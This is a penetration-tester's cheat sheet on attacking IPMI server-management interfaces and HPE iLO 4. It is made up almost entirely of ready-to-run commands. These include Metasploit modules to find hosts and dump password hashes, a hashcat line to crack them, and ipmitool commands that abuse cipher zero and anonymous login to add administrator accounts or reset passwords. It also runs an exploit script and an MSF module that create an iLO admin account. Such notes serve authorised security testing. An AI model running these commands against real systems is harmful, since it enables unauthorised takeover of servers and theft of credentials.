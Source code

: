 ```yaml
---
description: Intelligent Platform Management Interface
---
```


# IPMI

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)
* [https://habr.com/ru/company/selectel/blog/439834/](https://habr.com/ru/company/selectel/blog/439834/)




## Discovery

```
msf > use auxiliary/scanner/ipmi/ipmi_version
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```




## Dump Hashes

**CVE-2013-4786**

Dump hashes:

```
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
msf > set OUTPUT_HASHCAT_FILE ipmi_hashes.txt
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```

Recover plaintext passwords:

```
$ hashcat -m 7300 -O -a 0 -w 4 --session=ipmi -o ipmi_hashes.out ipmi_hashes.in seclists/Passwords/darkc0de.txt -r rules/d3ad0ne.rule --username
```




## Cipher Zero

**CVE-2013-4805**

Discover with MSF:

```
msf > use auxiliary/scanner/ipmi/ipmi_cipher_zero
msf > set RHOSTS file:ipmi.txt
msf > set THREADS 25
msf > run
```

Guess existing admin username. If `ADMIN` username is correct, the `list` command will succeed (password doesn't matter):

```
$ sudo apt install ipmitool
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user list
```

Add new admin user (only existing admin username is needed):

```
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set name <ID> snovvcrash
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user set password <ID> 'Passw0rd!'
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user priv <ID> 4
$ ipmitool -I lanplus -C 0 -H 127.0.0.1 -U ADMIN -P DummyPassw0rd user enable <ID>
```




## Anonymous Authentication

Can be discovered with MSF `ipmi_dumphashes` but also with ipmitool:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user list
```

Change password of a named user account:

```
$ ipmitool -I lanplus -H 127.0.0.1 -U '' -P '' user set password <ID> 'Passw0rd!'
```




## HPE iLO 4

* [https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/](https://codeby.net/threads/poluchaem-dostup-k-hp-ilo.63224/)
* [https://github.com/airbus-seclab/ilo4_toolbox](https://github.com/airbus-seclab/ilo4_toolbox)



### Add Admin User

**CVE-2017-12542**

Exploit with Python:

* [https://www.exploit-db.com/exploits/44005](https://www.exploit-db.com/exploits/44005)

```
$ ./44005.py -t -e -u snovvcrash -p 'Passw0rd!' 127.0.0.1
```

Exploit with MSF:

```
msf > use auxiliary/admin/hp/hp_ilo_create_admin_account
msf > set RHOSTS 10.10.13.37
msf > set USERNAME snovvcrash
msf > run
```
